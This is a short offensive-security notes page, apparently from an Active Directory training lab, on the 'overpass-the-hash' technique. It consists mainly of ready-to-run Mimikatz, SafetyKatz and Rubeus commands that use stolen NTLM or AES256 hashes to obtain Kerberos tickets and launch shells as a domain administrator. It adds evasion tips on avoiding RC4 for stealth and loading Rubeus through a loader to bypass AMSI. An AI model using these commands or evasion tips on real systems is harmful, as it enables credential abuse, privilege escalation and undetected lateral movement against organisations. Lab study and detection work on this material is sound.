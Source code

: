 # Over Pass The Hash

Over pass the hash (OPTH) is used between domain joined and not passing directly the NTLM hash to authenticate, instead asking for TGT.

{% hint style="warning" %}
Always try to avoid RC4 as it is not opsec friendly. Use AES256 where it is possible.
{% endhint %}

{% code fullWidth="false" %}
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256:<aes256key> /run:powershell.exe"'

# Need Admin Privilege for OPTH
SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256:<aes256keys>  /run:cmd.exe" "exit"

#OPTH without Admin Privilege. Current session will be replaced
Rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt

# Need Admin Privilege
Rubeus.exe asktgt /user:administrator /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
{% endcode %}

It's always safe way to load Rubeus through the Loader to bypass ASMI.

{% code overflow="wrap" %}
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:<hash> /opsec /createonly:C:\Windows\System32\cmd.exe /show /ptt
```
{% endcode %}

